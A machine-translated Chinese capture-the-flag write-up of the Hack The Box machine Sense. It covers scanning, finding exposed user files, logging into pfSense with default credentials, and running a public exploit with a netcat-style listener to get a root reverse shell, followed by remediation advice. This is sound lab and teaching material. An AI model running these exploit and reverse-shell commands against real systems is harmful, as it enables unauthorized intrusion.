# 保持冷静，黑掉盒子的感觉

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-sense/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。

它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

****************注********:****************只允许对退役的 HTB 机器进行补录。********


总体而言，Sense 相当简单。它展示了不良密码做法的风险，以及在面向公众的系统上暴露内部文件的风险。

我们将使用以下工具将机器典当到一个 [Kali Linux 机器](https://www.kali.org/)上:

*   nmap
*   恐怖分子
*   searchsploit

我们开始吧！

## **************第一步——侦察**************

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

### ******端口扫描******

我会用****************Nmap****************(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。

它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。


我使用以下命令来执行密集扫描:

```
nmap -A -v 10.10.10.60
```

****************-A:****************启用 OS 检测、版本检测、脚本扫描和 traceroute

****************-v:****************增加详细程度

**感 **************。htb:****************为感测框主机名

如果你觉得这个结果有点令人难以置信，你可以试试这个:

```
nmap 10.10.10.60
```



我们可以看到有两个开放的端口，包括:

****************端口********80********，最常被超文本传输协议(HTTP)使用

****端口** 443** ，所有安全 HTTP 流量的标准端口

### 
目录扫描

还在扫描侦察阶段，我现在用的是**。DirBuster 是一个多线程的 Java 应用程序，旨在暴力破解 web/应用服务器上的目录和文件名。**

**您可以通过在终端上键入以下命令来启动 DirBuster:**

```
`dirbuster`
```

**或者通过搜索应用程序:**

**

Old Kali** **

New Kali** 

**应用程序如下所示，您可以在其中指定目标 URL。在我们的例子中，它将是 ****https://10.10.10。** 60** 。您可以通过点击浏览按钮选择一个带有**目录/文件列表**的单词列表:**

****

**我使用 ****目录-列表-2.3-medium.txt**** 进行搜索。我们可以在这里看到一些有趣的文件:**

****

## ********第二步——访问我们从侦察阶段**** 得到的**文件**

让我们导航到 **changelog.txt** 文件。我们正在获得更多关于一些安全变更日志的信息，包括修补漏洞和时间表。



另一个有趣的文件是 **system-users.txt** ，它包含用户名和密码指示。



## ******步骤** 3 **-访问网页******

让我们导航到网站。我们看到一个 pfSense 面板。



> pfSense 是一个基于 FreeBSD 的开源防火墙/路由器计算机软件发行版。它安装在物理计算机或虚拟机上，构成网络的专用防火墙/路由器。它可以通过一个基于网络的界面进行配置和升级，并且不需要管理底层 FreeBSD 系统的知识


https://www.pfsense.org/

让我们谷歌一下，看看能否找到 pfSense 的默认用户名和密码。答对了。我们确实在 Netgate 文档中找到了一些文档。



https://docs.netgate.com/pfsense/en/latest/solutions/m1n1wall/getting-started.html

我在登录页面上试了试用户名 **Rohit** 和密码 **pfsense** ，我成功了！我看了一下仪表盘和其他我能收集到的信息。我们可以看到我们在哪个具体版本上-**2 . 1 . 3-发布(amd64)** 。



## ******步** 4 **-** 找漏洞****

我使用****************Searchsploit****************来检查是否有已知的漏洞利用。Searchsploit 是一个用于[漏洞数据库](https://www.exploit-db.com/)的命令行搜索工具。

我使用以下命令:

```
searchsploit pfsense
```



我通过以下方式获得了漏洞利用的更多详细信息:

```
searchsploit -x 43560.py
```



您还可以查看 ****************漏洞利用数据库****************来查找相同的漏洞利用。



https://www.exploit-db.com/exploits/43560

我通过以下方式获得更多信息:

```
searchsploit -p 43560.py
```



我可以在我的卡利盒上看到它的位置。我将文件复制到我的 **Sense** 文件夹中:

```
cp /usr/share/exploitdb/exploits/linux/remote/43560.py .
```

并检查它是否已被复制到该文件夹中:

```
ls -la
```



在一个终端(右侧)上，我设置了一个监听器:

```
nv -nvlp 1234
```

然后，我用以下内容设置了漏洞(左侧):

```
python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1234 --username rohit --password pfsense
```

我得到了一个壳作为根！



我开始收集一些基本信息。****************id****************返回调用进程的真实用户 ID。



## ******步** 5 **- ********寻找 user.txt 标志**************

我从 ********首页******** 导航到 **rohit** 文件夹。

我可以使用以下命令列出所有文件/文件夹:

```
ls -la
```

我随后将 ********首页******** 文件夹用:

```
cd home
```



我找到了用户标志！我使用以下命令检查文件的内容:

```
cat user.txt
```

## ******************************第五步-****************寻根. txt 旗**************

现在让我们找到根旗。我导航到 ****根**。**

我找到 root.txt 文件，并使用以下命令检查其内容:

```
cat root.txt
```



恭喜你。你找到了两面旗。

## **补救**

*   不要将敏感信息(如登录凭据或修补状态)存储在 web 服务器上的明文文件中
*   pfsense 应用程序应修补为最新版本
*   当您设置新的应用程序/服务器/平台时，请确保更改默认密码
*   将最低特权原则应用于您的所有系统和服务

请不要犹豫提出问题或与您的朋友分享:)

更多文章可以从 ****保持冷静黑盒子**** [这里](https://www.freecodecamp.org/news/search/?query=keep%20calm%20and%20hack%20the%20box)看到。

你可以在 Twitter 上关注我，也可以在 T2 的 LinkedIn 上关注我。

还有别忘了#********GetSecure********，#********be secure********&#********StaySecure********！

